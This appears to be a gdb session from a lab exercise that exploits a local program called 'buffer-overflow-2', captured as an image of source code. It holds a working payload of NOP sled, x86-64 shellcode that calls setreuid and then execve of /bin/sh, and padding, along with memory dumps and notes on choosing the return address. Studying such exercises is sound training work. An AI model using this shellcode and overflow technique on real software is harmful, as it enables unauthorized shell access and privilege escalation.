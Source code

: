 ```
0x7fffffffe248: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe258: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe268: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe278: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe288: 0x41414141      0x31414141      0xebbf66ff      0x58716a03
0x7fffffffe298: 0x0ffe8948      0x583b6a05      0x49d23148      0x622f2fb8
0x7fffffffe2a8: 0x732f6e69      0xe8c14968      0x48504108      0x5752e789
0x7fffffffe2b8: 0x0fe68948      0x583c6a05      0x0fff3148      0x42424205
0x7fffffffe2c8: 0x42424242      0x42424242      0x42424242      0x42424242
0x7fffffffe2d8: 0x43434343      0x00004343      0xffffe3d8      0x00007fff
0x7fffffffe2e8: 0x00000000      0x00000002      0x004005e0      0x00000000
0x7fffffffe2f8: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe308: 0xffffe3d8      0x00007fff      0x00040000      0x00000002
0x7fffffffe318: 0x004005ac      0x00000000      0x00000000      0x00000000
0x7fffffffe328: 0x1e3de574      0x1b8c4ce3      0x00400450      0x00000000
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb) run $(python2 -c "print '\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python2 -c "print '\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6")
new word is doggo������������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1�BBBBBBBBBBBBBBBBBBBCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x0000434343434343 in ?? ()
(gdb) x/100x $rsp-200
0x7fffffffe218: 0x004005a9      0x00000000      0xf7ffa268      0x00007fff
0x7fffffffe228: 0xffffe63e      0x00007fff      0x67676f64      0x9090906f
0x7fffffffe238: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe248: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe258: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe268: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe278: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe288: 0x90909090      0x31909090      0xebbf66ff      0x58716a03
0x7fffffffe298: 0x0ffe8948      0x583b6a05      0x49d23148      0x622f2fb8
0x7fffffffe2a8: 0x732f6e69      0xe8c14968      0x48504108      0x5752e789
0x7fffffffe2b8: 0x0fe68948      0x583c6a05      0x0fff3148      0x42424205
0x7fffffffe2c8: 0x42424242      0x42424242      0x42424242      0x42424242
0x7fffffffe2d8: 0x43434343      0x00004343      0xffffe3d8      0x00007fff
0x7fffffffe2e8: 0x00000000      0x00000002      0x004005e0      0x00000000
0x7fffffffe2f8: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe308: 0xffffe3d8      0x00007fff      0x00040000      0x00000002
0x7fffffffe318: 0x004005ac      0x00000000      0x00000000      0x00000000
0x7fffffffe328: 0xde9fddd9      0xd0cf00c1      0x00400450      0x00000000

0x7fffffffe288: 0x90909090      0x31909090      0xebbf66ff      0x58716a03 --> shellcode

yep Let’s take 0x7fffffffe278 as return address (between future NOP sled and beginning of shell code). 

Now, memory address: (revert taking 78 e2 ff ff ff ff 7f then adding \x to get hex)

\x78\xe2\xff\xff\xff\x7f


```